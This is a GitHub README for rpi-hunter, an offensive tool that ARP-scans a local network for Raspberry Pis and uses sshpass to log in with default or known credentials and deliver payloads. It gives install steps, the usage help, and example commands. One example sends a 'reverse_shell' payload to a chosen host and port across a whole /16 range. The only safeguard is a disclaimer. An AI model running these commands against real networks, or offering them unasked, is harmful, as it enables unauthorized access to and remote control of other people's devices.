 # rpi-hunter
* Automate discovering and dropping payloads on LAN Raspberry Pi's via ssh
* Or, the honest title: Automating sshpass for command delivery.


![alt text](https://github.com/BusesCanFly/rpi-hunter/blob/master/screenshot.png "Who doesn't love ASCII art?")

Rpi-hunter is  useful when there are multiple Raspberry Pi's on your LAN with default or known credentials, in order to automate sending commands/payloads to them.

# GUIDE:

## Installation

1. Install dependencies: `sudo pip install -U argparse termcolor` and `sudo apt -y install arp-scan tshark sshpass`
2. Download rpi-hunter: `git clone https://github.com/BusesCanFly/rpi-hunter`
3. Navigate to rpi-hunter: `cd ./rpi-hunter`
4. Make rpi-hunter.py executable: `chmod +x rpi-hunter.py`
* One line variant: `sudo pip install -U argparse termcolor && sudo apt -y install arp-scan tshark sshpass && git clone https://github.com/BusesCanFly/rpi-hunter && cd ./rpi-hunter && chmod +x rpi-hunter.py`

## Usage

Check out this sweet [video](https://www.youtube.com/watch?v=qApJyIkDYvQ) and the accompanying [write-up](https://null-byte.wonderhowto.com/how-to/discover-attack-raspberry-pis-using-default-credentials-with-rpi-hunter-0193855/) made by the people over at NullByte!
* **Note:** For the new people, I made a few updates to rpi-hunter to fix some bugs and add some more features :) Running the command `./rpi-hunter.py` will automatically scan your whole local network and run the `whoami` command on any raspberry pi's it finds

```
usage: rpi-hunter.py [-h] [--list] [--no-scan] [-r IP_RANGE] [-f IP_LIST]
                     [-c CREDS] [--payload PAYLOAD] [-H HOST] [-P PORT]
                     [--safe] [-q]

optional arguments:
  -h, --help         show this help message and exit
  --list             List available payloads
  --no-scan          Disable ARP scanning
  -r IP_RANGE        IP range to scan
  -f IP_LIST         IP list to use (Default ./scan/RPI_list)
  -u UNAME           Username to use when ssh'ing
  -c CREDS           Password to use when ssh'ing
  --payload PAYLOAD  (Name of, or raw) Payload [ex. reverse_shell or 'whoami']
  -H HOST            (If using reverse_shell payload) Host for reverse shell
  -P PORT            (If using reverse_shell payload) Port for reverse shell
  --safe             Print sshpass command, but don't execute it
  -q                 Don't print banner
```

* Run `./rpi-hunter.py --list` to see avalible payloads.
* Payloads can be specified by the payload name from `--list` or as raw input
    * ex. `--payload reverse_shell` or `--payload [your cli command here]`

* Example usage: 
	* `./rpi-hunter.py -r 192.168.0.0/16 --payload reverse_shell -H 127.0.0.1 -P 1337`
    	* **Note:** only the "reverse_shell" payload requires the `-H` and `-P` flags
	* `./rpi-hunter.py -c lamepassword --payload "ls -lah \~"`
    	* **Note:** make sure to escape special characters with a `\` 
---
# ***Disclaimer:***
## The standard internet fun disclaimer applies. Don't commit crimes, be responsible.
## I am in no way responsible for anything and everything you do with rpi-hunter.

